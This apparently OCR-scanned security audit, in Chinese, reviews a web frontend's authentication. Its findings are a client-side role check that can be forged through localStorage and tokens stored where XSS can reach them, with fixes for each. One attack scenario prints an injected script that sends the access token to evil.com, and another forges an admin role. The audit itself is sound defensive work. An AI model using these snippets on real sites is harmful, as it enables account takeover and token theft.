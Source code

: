 **攻击场景**:
```javascript
// 攻击者打开开发者工具
localStorage.setItem('user', JSON.stringify({
  id: 1,
  username: 'attacker',
  email: 'attacker@evil.com',
  role: 'admin' // 伪造管理员角色
}))

// 刷新页面,路由守卫读取伪造的role
// 攻击者可以访问/admin/dashboard等管理员页面
```

**修复方案**:
```javascript
// 方案1: 解析JWT token获取角色
function getRoleFromToken(token) {
  try {
    const payload = JSON.parse(atob(token.split('.')[1]))
    return payload.role
  } catch {
    return 'guest'
  }
}

// 路由守卫改为
const hasToken = !!localStorage.getItem('access_token')
const userRole = hasToken ? getRoleFromToken(localStorage.getItem('access_token')) : 'guest'

// 方案2: 后端每次请求都验证权限(最安全)
// 前端路由守卫只做UI层面的控制
// 真正的权限验证在后端API层
```

---

#### 问题2: Token存储在localStorage易受XSS攻击
**描述**: access_token和refresh_token存储在localStorage,如果存在XSS漏洞,攻击者可窃取token

**代码位置**:
```javascript
// authApi.js 第96-98行
setAccessToken(token) {
  this.accessToken = token
  localStorage.setItem('access_token', token)
}
```

**攻击场景**:
```javascript
// 假设网站存在XSS漏洞,攻击者注入以下代码
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('access_token'))
</script>
```
